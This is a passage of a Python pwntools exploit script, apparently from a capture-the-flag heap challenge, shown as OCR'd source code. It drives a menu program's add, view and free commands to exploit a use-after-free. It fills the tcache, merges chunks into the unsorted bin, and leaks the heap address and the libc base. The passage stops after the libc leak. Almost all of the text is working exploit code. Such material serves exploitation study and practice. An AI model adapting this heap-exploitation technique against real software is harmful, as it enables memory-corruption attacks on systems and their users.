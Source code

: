 ```py
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
b* main
'''.format(**locals())

def exp():
    io = start()

    def add(idx, size, data, noLine=False):
        io.sendlineafter(b"> ", b"1")
        io.sendlineafter(b"idx: ", str(idx).encode())
        io.sendlineafter(b"size: ", str(size).encode())
        
        if not noLine:
            io.sendlineafter(b"content: ", data)
        else:
            io.sendafter(b"content: ", data)

    def view(idx):
        io.sendlineafter(b"> ", b"3")
        io.sendlineafter(b"idx: ", str(idx).encode())

    def free(idx):
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"idx: ", str(idx).encode())

    for i in range(7):
        add(i, 0x100, b"")

    # leak

    free(0)
    view(0)

    heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
    pwn.log.info(f"heap @ {hex(heap)}")

    add(0, 0x100, b"YY")

    add(7, 0x100, b"YY") # prev
    add(8, 0x100, b"YY") # a

    # fill tcache
    for i in range(7):
        free(i)

    for _ in range(20):
        add(9, 0x10, b"/bin/sh\0") # barrier

    free(8) # free(a) => unsortedbin
    free(7) # free(prev) => merged with a

    # leak libc
    view(8)

    libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
    pwn.log.success(f"libc: {hex(libc.address)}")

```